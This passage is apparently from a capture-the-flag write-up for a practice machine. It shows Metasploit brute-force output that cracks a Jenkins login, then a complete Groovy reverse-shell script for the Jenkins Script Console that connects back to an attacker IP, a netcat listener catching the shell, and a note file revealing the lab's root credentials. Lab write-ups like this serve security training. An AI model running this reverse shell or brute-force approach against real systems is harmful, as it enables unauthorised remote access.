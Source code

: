 ```
[-] 127.0.0.1:2000 - LOGIN FAILED: root:000000 (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:michelle (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:tigger (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:sunshine (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:chocolate (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:password1 (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:soccer (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:anthony (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:friends (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:butterfly (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:purple (Incorrect)
[-] 127.0.0.1:2000 - LOGIN FAILED: root:angel (Incorrect)
.....
127.0.0.1:2000 - Login Successful: admin:spongebob <---
[*] Scanned 2 of 2 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Another reverse shell?

So the jenkins credentials are `admin:spongebob` cool. Let's get another reverse shell, just going to `Manage Jenkins` and then clicking on `Script Console` will send me to the `/script` path where using `Revsh.groovy` alongside a netcat listenner will give a shell:

```
String host="ATACKER_IP";
int port=8080;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8080           
listening on [any] 8080 ...
connect to [10.9.82.69] from (UNKNOWN) [internal.thm] 48720
ls
bin
boot
...
```

After the shell is stabilized let's start enumerating. Turns out this guys love the `opt` folder because again there is something interesting in there. This `note.txt` file contains this:

```
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123

```

